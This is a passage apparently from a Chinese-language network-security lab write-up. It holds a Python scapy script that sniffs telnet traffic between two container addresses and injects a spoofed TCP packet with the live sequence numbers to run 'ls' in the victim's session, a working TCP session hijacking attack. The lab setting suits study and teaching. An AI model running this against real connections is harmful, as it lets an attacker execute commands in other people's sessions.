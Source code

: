 ![image-20220410223854245](readme.assets/image-20220410223854245.png)

## scapy自动

### 普通命令

脚本

```python
#!/usr/bin/python3
from scapy.all import *
SRC = "172.17.0.2"
DST = "172.17.0.3"
PORT = 23
def spoof(pkt):
	old_ip = pkt[IP]
	old_tcp = pkt[TCP]

	ip = IP( src = old_ip.src,
             dst = old_ip.dst
            )
	tcp = TCP( sport = old_tcp.sport,
			   dport = old_tcp.dport,
		       seq = old_tcp.seq,
			   ack = old_tcp.ack,
			   flags = "A"
			  )
	data = "\n ls\n"

	pkt = ip/tcp/data
	send(pkt,verbose=0)
	ls(pkt)
	quit()
    
f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
sniff(filter=f, prn=spoof)
```
